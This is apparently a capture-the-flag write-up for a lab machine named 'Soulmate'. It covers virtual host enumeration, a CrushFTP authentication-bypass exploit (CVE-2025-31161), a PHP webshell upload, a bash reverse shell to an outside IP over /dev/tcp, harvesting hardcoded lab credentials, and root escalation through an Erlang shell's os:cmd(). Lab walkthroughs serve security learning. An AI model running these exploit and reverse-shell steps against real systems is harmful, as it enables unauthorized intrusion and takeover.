






Exploitation Summary
Exploitation process: The target machine was running CrushFTP on a subdomain accessible through virtual host enumeration. Initial reconnaissance revealed a dating website on the main domain and a CrushFTP administration panel on ftp.soulmate.htb.
To gain access, I exploited CVE-2025-31161, a race condition authentication bypass vulnerability in CrushFTP that allowed me to create an administrative user. Once authenticated, I reset the password for the existing user ben who had filesystem access to the web application directory. I then uploaded a PHP webshell and gained initial shell access as www-data.
Lateral movement to user ben was achieved by discovering hardcoded credentials in an Erlang SSH service configuration file. For privilege escalation to root, I exploited the Erlang SSH shell by executing OS commands through the Erlang os:cmd() function, which was running as root, allowing me to add ben to the sudo group and obtain full root access.
Technologies/Exploits: CrushFTP authentication bypass (CVE-2025-31161), virtual host enumeration, PHP webshell upload, Erlang SSH command injection, sudo privilege escalation.
Initial Reconnaissance
I begin with an nmap scan to identify open ports and services:

Based on the scan results, I add soulmate.htb to my /etc/hosts file to resolve the domain properly.
Web Enumeration - Main Site
Running whatweb against the target reveals it's running PHP with nginx on Ubuntu Linux:
whatweb http://soulmate.htb/The output shows:
http://soulmate.htb/ [200 OK] Bootstrap, Cookies[PHPSESSID], Country[RESERVED][ZZ],
Email[hello@soulmate.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)],
IP[10.10.11.86], Script, Title[Soulmate - Find Your Perfect Match], nginx[1.18.0]Navigating to the website, I discover it's a dating website application. Users can create profiles and upload images.
Directory Enumeration
I run gobuster to enumerate directories and files on the web server:

The results don't reveal any particularly interesting paths beyond the standard web application structure.
Testing File Upload Functionality
One interesting feature is the profile image upload functionality. I test uploading a legitimate image to see how the application handles files. The uploaded image is stored at /assets/images/profiles/3_1760092004.jpg, suggesting a predictable naming pattern.
I attempt to upload a PHP webshell disguised as an image, but the application appears to have proper file validation in place, preventing direct exploitation through this vector.
Virtual Host Discovery
While continuing enumeration, I leave gobuster running in vhost enumeration mode. It discovers an interesting subdomain:
ftp.soulmate.htb Status: 302 [Size: 0] [--> /WebInterface/login.html]I add ftp.soulmate.htb to my /etc/hosts file and navigate to it.
CrushFTP Discovery and Exploitation
Accessing ftp.soulmate.htb redirects to /WebInterface/login.html, revealing a CrushFTP login panel:

I try default credentials with the username crushadmin (which appears to be the default administrative account), but they don't work.
Vulnerability Research
Searching for recent CrushFTP exploits, I discover two recent authentication bypass CVEs:
- CVE-2025-31161 - Authentication bypass via race condition
- CVE-2025-54309 - Username enumeration via race condition
Although the CrushFTP version isn't immediately visible, I decide to test both vulnerabilities.
CVE-2025-54309 - User Enumeration
I first test CVE-2025-54309, which exploits a race condition to enumerate users. The exploit works by sending paired requests - one to change the username to crushadmin and another to extract the user list. During a very brief window, the name-changed user is treated as an admin.
After running the exploit for a while, it successfully exfiltrates usernames:
[*] EXFILTRATED 5 USERS: ben, crushadmin, default, jenna, TempAccountWhile this proof-of-concept only extracts usernames, the same technique could theoretically be used for more extensive exploitation. However, since this is a very recent vulnerability, there aren't many mature public exploits available.
CVE-2025-31161 - Account Creation
I then find a more useful exploit for CVE-2025-31161: https://github.com/Immersive-Labs-Sec/CVE-2025-31161
This exploit allows me to create a new administrative user by exploiting another race condition in the authorization mechanism:
python3 xd.py --target_host ftp.soulmate.htb --port 80 --target_user crushadmin --new_user xd --password asdThe exploit successfully creates the account:
[+] Preparing Payloads
[-] Warming up the target
[+] Sending Account Create Request
[!] User created successfully
[+] Exploit Complete you can now login with
[*] Username: xd
[*] Password: asdPost-Exploitation - CrushFTP Access
After logging in with my newly created user xd:asd, I explore the CrushFTP interface. I discover that the user ben has access to the web directories for soulmate.htb:

This is a critical finding - if I can access ben's account, I can upload files directly to the web root.
Resetting Ben's Password
Using my administrative access through the CrushFTP panel, I reset the password for user ben:
ben:uZe4BYWebshell Upload and Initial Access
Now authenticated as ben in CrushFTP, I upload a PHP webshell to the web application directory:

I verify the webshell is working by accessing it through the browser:

The webshell executes commands successfully. I now use it to send myself a reverse shell:
http://soulmate.htb/xd.php?cmd=bash+-c+%22bash+-i+%3E%26+/dev/tcp/10.10.16.6/443+0%3E%261%22With a netcat listener ready, I receive the connection and gain shell access as www-data.
Credential Hunting and Lateral Movement
As www-data, I begin searching for credentials and useful information in the web application files.
Database Credentials
In config.php, I find the CrushFTP admin password:
Crush4dmin990I also discover a bcrypt hash in an SQLite database:
$2y$12$u0AC6fpQu0MJt7uJ80tM.Oh4lEmCMgvBs3PwNNZIR7lor05ING3v2I attempt to crack it using hashcat with bcrypt mode (3200), but it doesn't crack with common wordlists.
Process Enumeration
Running ps -faux, I notice an interesting process running as root:
root 1066 0.0 1.6 2252952 67412 ? Ssl 19:23 0:03 /usr/local/lib/erlang_login/start.escript
-B -- -root /usr/local/lib/erlang -bindir /usr/local/lib/erlang/erts-15.2.5/bin -progname erl
-- -home /root -- -noshell -boot no_dot_erlang -sname ssh_runner -run escript start -- --
-kernel inet_dist_use_interface {127,0,0,1} -- -extra /usr/local/lib/erlang_login/start.escriptThis appears to be an Erlang-based SSH service. I investigate the directory /usr/local/lib/erlang_login to examine the Erlang scripts.
Hardcoded Credentials Discovery
Examining the Erlang configuration files, I discover hardcoded credentials for the SSH service running on port 2222:
{user_passwords, [{"ben", "HouseH0ldings998"}]},These credentials allow SSH access to an Erlang shell rather than a traditional bash shell.
User Flag - Access as Ben
Using the discovered credentials, I switch to user ben:
su ben
# Password: HouseH0ldings998I successfully retrieve the user flag from ben's home directory.
Privilege Escalation - Erlang SSH Exploitation
I connect to the Erlang SSH service to understand how it works:
ssh -p 2222 ben@localhost
# Password: HouseH0ldings998This drops me into an Erlang shell:
Eshell V15.2.5 (press Ctrl+G to abort, type help(). for help)
(ssh_runner@soulmate)1>Erlang Command Execution
After researching Erlang shell commands, I discover that I can execute OS commands using the os:cmd() function. I test basic command execution:
os:cmd("id").Since this Erlang process is running as root (as seen in the process list earlier), any commands executed through os:cmd() will run with root privileges.
Adding Ben to Sudo Group
I exploit this by adding user ben to the sudo group:
os:cmd('sudo usermod -aG sudo ben').After executing this command, I exit the Erlang shell and log back in as ben. Verifying my group membership:
iduid=1000(ben) gid=1000(ben) groups=1000(ben),27(sudo)I'm now in the sudo group. Checking sudo permissions:
sudo -lUser ben may run the following commands on soulmate:
(ALL : ALL) ALLRoot Access
With full sudo privileges, I escalate to root:
sudo suI successfully obtain root access and can retrieve the root flag, completing the machine.